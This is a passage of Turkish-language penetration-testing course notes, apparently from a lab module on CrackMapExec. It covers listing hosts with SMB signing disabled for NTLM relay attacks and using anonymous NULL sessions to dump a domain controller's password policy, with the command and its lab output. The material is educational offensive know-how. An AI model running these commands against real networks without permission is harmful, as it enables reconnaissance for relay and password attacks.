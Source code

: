 ```
cat relaylistOutputFilename.txt
192.168.1.111
192.168.1.117
```

#### Signing Disabled - Host Enumeration

Bu komut, ağınızdaki tüm SMB sunucularını tarar ve SMB imzalama (SMB signing) özelliğini devre dışı bırakmış olan sistemleri belirleyerek bunları bir listeye kaydeder. Yani, sadece SMB imzalama devre dışı bırakılmış olan sunucular bu listeye dahil edilir.

**`--gen-relay-list`** parametresi, SMB Signing kapalı olan makinelerin IP adreslerini çıkaran bir "relay listesi" oluşturur. Bu liste daha sonra **SMBRelay** saldırılarında kullanılabilir. Yani, bu listeyi kullanarak, SMB imzalamayı devre dışı bırakmış makinelerde SMB relay saldırısı yapabilirsiniz.

Bu sayede, "Signing" (SMB signing devre dışı bırakılmış) makineleri hedef alırsınız, çünkü bu makinelerde SMB iletişiminde Signing doğrulaması yapılmaz ve dolayısıyla relay saldırılarına daha açıktırlar.


Bu modülün "Stealing Hashes" bölümünde relaying konusunu ele alacağız.

Ayrıca, bu blog yazısı: [_Practical guide to NTLM Relaying in 2017_](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html) da okunmaya değer.


## Exploiting NULL/Anonymous Sessions

[NULL Session](https://en.wikipedia.org/wiki/Null_session), Windows tabanlı bilgisayarlarda bir inter-process communication (IPC) ağ servisine anonim bir bağlantıdır. Bu servis, named pipe bağlantılarına izin vermek üzere tasarlanmış olsa da, saldırganlar tarafından sistem hakkında uzaktan bilgi toplamak için kullanılabilir. 

Bir hedef, özellikle bir domain controller  `NULL Session'a` karşı savunmasızsa, saldırganın geçerli bir domain hesabına sahip olmadan aşağıdaki gibi bilgileri toplamasına izin verebilir:

* Domain users ( --users )
* Domain groups ( --groups )
* Password policy ( --pass-pol )
* Share folders ( --shares )

 Aşağıdaki komutları kullanarak bir domain controller üzerinde deneyelim:

### Enumerating the Password Policy
 
```
crackmapexec smb 10.129.203.121 -u '' -p '' --pass-pol

SMB 10.129.203.121 445 DC01 [*] Windows 10.0 Build
17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)

SMB 10.129.203.121 445 DC01 [+] Dumping password
info for domain: INLANEFREIGHT

SMB 10.129.203.121 445 DC01 Minimum password
length: 7

SMB 10.129.203.121 445 DC01 Password history
length: 24

SMB 10.129.203.121 445 DC01 Maximum password age:
41 days 23 hours 53 minutes

SMB 10.129.203.121 445 DC01

```